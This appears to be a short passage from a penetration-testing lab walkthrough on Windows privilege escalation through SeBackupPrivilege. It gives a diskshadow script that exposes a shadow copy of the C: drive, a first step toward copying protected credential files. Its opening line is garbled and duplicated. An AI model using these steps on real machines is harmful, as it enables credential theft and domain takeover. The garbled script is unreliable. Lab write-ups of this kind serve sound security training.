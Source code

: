 

![image-20200912185601856](xen.assets/image-20200912185601856.png)





## sebackup - privesc



- first we will mount a snapshot with diskshadow

```
SET CONTEXT PERSISTENT NOWRITERSSET CONTEXT PERSISTENT NOWRITERS
add volume c: alias manish
create
expose %manish% z:

add volume c: alias manish
create
expose %manish% z:
```

```
diskshadow.exe /s shadow.txt
```
